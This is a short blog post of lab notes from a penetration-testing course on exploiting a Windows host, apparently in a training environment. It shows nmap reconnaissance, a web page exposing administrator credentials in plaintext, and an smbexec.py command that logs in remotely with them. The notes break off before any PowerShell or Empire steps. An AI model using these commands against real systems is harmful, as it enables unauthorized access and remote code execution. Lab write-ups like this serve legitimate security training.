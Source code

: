 ```yaml
---
layout: post
title: "Leveraging PowerShell During Exploitation"
date: "2024-06-12"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Professional
    - Resource Development & Initial Access
    - PowerShell for Pentesters
---
```


# Leveraging PowerShell During Exploitation
# Lab Demo: Leveraging PowerShell During Exploitation
[Empire Quickstart](https://bc-security.gitbook.io/empire-wiki/quickstart)

```
cat /etc/hosts

10.4.22.227 demo.ine.local
10.4.22.232 fileServer.ine.local
```

```
ping demo.ine.local
```

```
ping fileServer.ine.local
```

```
nmap demo.ine.local
nmap -p- demo.ine.local
```

Open up a browser

```
demo.ine.local:4983
```

It also displays the admin credentials for this particular host.

```
/user:Administrator abc_123321!@#
```

```
smbexec.py 'Administrator:abc_123321!@#'@demo.ine.local
```
